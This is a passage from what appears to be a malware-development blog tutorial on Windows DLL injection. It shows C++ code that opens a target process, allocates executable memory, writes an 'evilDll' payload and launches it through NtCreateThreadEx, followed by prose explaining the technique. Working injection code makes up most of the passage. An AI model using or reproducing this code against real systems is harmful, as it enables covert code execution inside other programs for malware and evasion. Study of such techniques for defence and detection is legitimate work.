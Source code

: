 ```cpp
  } else {
    printf("PID = %d\n", pid);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed :( exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, evilLen, 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, evilDll, evilLen, rl); // NULL);

    ntCTEx(&ht, 0x1FFFFF, NULL, ph, 
    (LPTHREAD_START_ROUTINE) lb, rb, 
    FALSE, NULL, NULL, NULL, NULL);

    if (ht == NULL) {
      CloseHandle(ph);
      printf("ThreadHandle failed :( exiting...\n");
      return -2;
    } else {
      printf("successfully inject via NtCreateThreadEx :)\n");
    }
    
    WaitForSingleObject(ht, INFINITE);

    CloseHandle(ht);
    CloseHandle(ph);
  }
  return 0;
}

```

Let's go to investigate this code logic. As you can see, firstly, I used a function `FindMyProc` from one of my [past](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) posts. It's pretty simple, basically, what it does, it takes the name of the process we want to inject to and try to find it in a memory of the operating system, and if it exists, it’s running, this function return a process ID of that process.   

Then, in `main` function our logic is same as in my [classic DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) post. The only difference is we use `NtCreateThreadEx` function instead `CreateRemoteThread`:
